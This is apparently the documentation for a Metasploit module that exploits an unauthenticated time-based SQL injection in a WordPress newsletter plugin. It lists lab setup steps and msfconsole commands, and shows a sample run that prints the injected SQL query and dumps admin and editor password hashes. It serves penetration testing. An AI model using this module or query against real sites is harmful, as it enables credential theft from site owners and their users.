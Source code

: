 ## Vulnerable Application

Email Subscribers & Newsletters plugin contains an unauthenticated timebased SQL injection in
versions before 4.3.1.  The `hash` parameter is vulnerable to injection.

All versions can be downloaded from [wordress.org](https://wordpress.org/plugins/email-subscribers/advanced/)
or [4.2.2](https://downloads.wordpress.org/plugin/email-subscribers.4.2.2.zip)

After install, simply activate the plug-in.  You may get a "80% done!" page, simply ignore it.

## Verification Steps

1. Install the plugin on wordpress.
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_email_sub_news_sqli`
1. Do: `set rhosts [ip]`
1. Do: `set action [action]`
1. Do: `run`

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with Email Subscribers & Newsletters 4.2.2 on Ubuntu 20.04 using MariaDB 10.3.22

#### List Users

```
msf6 > use auxiliary/scanner/http/wp_email_sub_news_sqli 
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set count 3
count => 3
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > run

[*] Checking /wp-content/plugins/email-subscribers/readme.txt
[*] Found version 4.2.2 in the plugin
[+] Vulnerable version of Email subscribers and newsletter detected
[*] {SQLi} Executing (select group_concat(yKaoA) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) yKaoA from wp_users limit 3) adO)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
